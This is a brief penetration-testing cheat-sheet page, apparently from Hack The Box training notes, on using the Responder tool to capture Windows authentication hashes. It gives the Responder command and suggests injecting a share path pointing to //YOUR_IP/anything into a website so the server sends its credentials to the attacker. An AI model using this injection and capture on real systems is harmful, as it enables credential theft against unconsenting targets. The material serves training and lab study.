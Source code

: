 # Responder

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -i IP -I tun0
```
</div><div>

Following the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div></div>